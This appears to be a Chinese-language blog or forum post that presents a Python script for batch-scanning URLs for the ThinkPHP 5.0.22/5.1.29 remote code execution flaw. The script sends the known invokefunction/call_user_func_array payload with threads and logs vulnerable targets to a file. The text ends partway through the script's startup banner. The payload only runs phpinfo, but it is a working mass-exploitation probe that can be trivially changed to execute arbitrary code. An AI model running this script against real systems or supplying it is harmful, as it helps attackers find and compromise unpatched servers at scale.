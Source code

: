 这里我找到了一个 thinkphp 漏洞批量检测的脚本

```
# !/usr/bin/env python
# -*- coding: utf-8 -*-

# name: thinkphp远程代码检测
# description: ThinkPHP5 5.0.22/5.1.29 远程代码执行漏洞
import re
import sys
import requests
import queue
import threading
from bs4 import BeautifulSoup
class thinkphp_rce(threading.Thread):
    def __init__(self, q):
        threading.Thread.__init__(self)
        self.q = q
    def run(self):
        while not self.q.empty():
            url=self.q.get()
            headers = {"User-Agent":"Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50"}
            payload = r"/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1"
            vulnurl = url + payload
            try:
                response = requests.get(vulnurl, headers=headers, timeout=3, verify=False, allow_redirects=False)

                soup = BeautifulSoup(response.text,"lxml")
                if 'PHP Version' in str(soup.text):
                    print ('[+] Remote code execution vulnerability exists at the target address')
                    print ('[+] Vulnerability url address ' + vulnurl)
                    with open('target.txt','a') as f1:
                        f1.write(vulnurl+'\n')
                    f1.close()
                else:
                    print ('[-] There is no remote code execution vulnerability in the target address')
            except:
                print ('[!] Destination address cannot be connected')
def urlget():
    with open('url.txt','r')as f:
        urls=f.readlines()
        for tmp in urls:
            if '//' in tmp:
                url=tmp.strip('\n')
                urlList.append(url)
            else:
                url='http://'+tmp.strip('\n')
                urlList.append(url)
        return(urlList)
    f.close()

if __name__=="__main__":
    print('''----------------扫描开始-------------------

*Made by  :tdcoming
*For More :https://t.zsxq.com/Ai2rj6E
*MY Heart :https://t.zsxq.com/A2FQFMN

              _______   _                         _               
             |__   __| | |                       (_)              
```